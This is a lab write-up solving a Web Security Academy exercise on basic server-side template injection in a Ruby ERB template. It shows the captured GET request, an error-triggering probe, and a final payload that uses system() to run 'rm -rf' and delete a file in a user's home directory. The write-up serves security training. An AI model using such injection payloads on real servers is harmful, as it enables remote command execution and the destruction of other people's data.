



# Basic server-side template injection

## Lab Description :


## Solution :
When we load the firest image in the website , we get the message that the product is out of stock


The following is the GET request that was sent to us,

```html
GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2
Host: a9f3c7d1e8b04f6a2c5d9e7b1f0a3c6d.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://a9f3c7d1e8b04f6a2c5d9e7b1f0a3c6d.web-security-academy.net/
Cookie: session=afkl71f43M20TVtVZ8WBBtMftYCQ6Qwe
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

Since the lab says it is an ERB template, we can test if it is vulnerable by trying the following payload -  `` <%=..%> ``

It throws an error response as expected.



Now we can try to run commands using the ERB template syntax & delete the ``morale.txt`` from carlos's home directory.

Payload used -

```ruby
<%= system('rm -rf /home/carlos/morale.txt') %>
```
Once we send this payload, the ``morale.txt`` file is deleted & the lab is solved.



#### Visit The Next Page For The Next Level :)
